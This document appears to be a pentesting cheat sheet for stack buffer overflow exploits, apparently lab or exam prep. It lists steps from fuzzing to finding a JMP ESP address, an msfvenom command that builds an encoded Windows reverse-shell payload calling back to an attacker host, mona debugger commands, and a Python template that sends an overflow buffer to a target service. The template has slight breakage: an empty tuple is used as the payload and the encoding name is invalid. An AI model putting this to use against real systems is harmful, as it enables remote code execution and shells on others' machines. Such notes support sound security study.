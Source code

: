 # BoF

## Fuzzer

{% embed url="https://github.com/AceSineX/BOF-fuzzer-python-3-All-in" %}

## Steps

1. Fuzz and crash program w/ A's
2. Create msfpattern
3. Provide EIP to find offset
4. Check for bad characters
5. Find JMP ESP/Return Address
   * make sure protection schemes are off and base address doesn't contain bad chars
6. Generate Shellcode
   * `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00"`
7. Exploit!

## Mona commands

```
!mona config -set workingfolder c:\mona\%p 
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\nameOfProgram\bytearray.bin -a ESP Address
!mona jmp -r ESP -m "module"
```

## Template

```python
import socket

ip = "MACHINE IP"
port = 9999


prefix = ""
offset = 2306
overflow = "A" * offset
retn = "\x0d\x11\x20\x11" # JMP ESP 1120110d
padding = "\x90" * 16 # nops
payload = ()
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "slatin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
